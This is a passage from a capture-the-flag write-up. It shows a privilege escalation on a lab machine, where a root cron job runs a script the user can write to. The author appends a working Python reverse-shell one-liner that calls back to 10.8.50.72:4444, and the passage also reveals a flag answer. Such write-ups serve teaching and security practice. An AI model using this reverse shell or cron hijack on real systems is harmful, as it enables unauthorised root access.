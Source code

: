 Answer: `flag{n0wits33msn0rm4l}`

## #2.8 - What is the root flag?

The user is not in the sudoers but there is a cron job executed by `root`:

~~~
boring@kral4-PC:~$ sudo -l
[sudo] password for boring: 
Sorry, user boring may not run sudo on kral4-PC.
boring@kral4-PC:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
~~~

The file is owned by our user, we can modify it.

~~~
boring@kral4-PC:~$ ls -l /var/www/.mysecretcronjob.sh 
-rwxr-xr-x 1 boring boring 33 Jun 14 22:43 /var/www/.mysecretcronjob.sh
boring@kral4-PC:~$ cat /var/www/.mysecretcronjob.sh 
#!/bin/bash
# i will run as root
~~~

Let's edit the script with `nano` (`vim` is not installed on the target), and add a reverse shell:

~~~
boring@kral4-PC:/var/www$ nano .mysecretcronjob.sh 
boring@kral4-PC:/var/www$ cat .mysecretcronjob.sh 
#!/bin/bash
# i will run as root
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.50.72",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
~~~

On the client side, we open a listener, and after a short while, we have a privileged reverse shell:
